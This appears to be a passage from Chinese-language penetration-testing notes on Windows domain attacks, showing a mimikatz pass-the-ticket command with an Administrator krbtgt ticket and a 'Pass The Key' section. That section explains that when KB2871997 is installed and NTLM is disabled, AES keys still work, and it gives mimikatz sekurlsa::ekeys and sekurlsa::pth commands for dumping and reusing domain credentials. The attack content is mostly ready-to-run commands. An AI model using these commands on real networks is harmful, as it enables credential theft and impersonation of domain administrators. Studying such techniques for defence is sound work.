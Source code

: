 ```shell
mimikatz kerberos::ptt C:\Users\webadmin\Desktop\[0;3e7]-2-1-40e00000-Administrator@krbtgt-god.org.kirbi
```

![截图](c2332caa596e5220cab18919fec9163e.png)

## PTK

PTK = Pass The Key。利用前提：==当系统安装了KB2871997补丁且禁用了NTLM的时候，==

那我们抓取到的ntlm hash也就失去了作用，但是可以通过PTK的攻击方式获得权限。
mimikatz sekurlsa::ekeys
mimikatz sekurlsa::pth /user:域用户名 /domain:域名 /aes256:aes256值

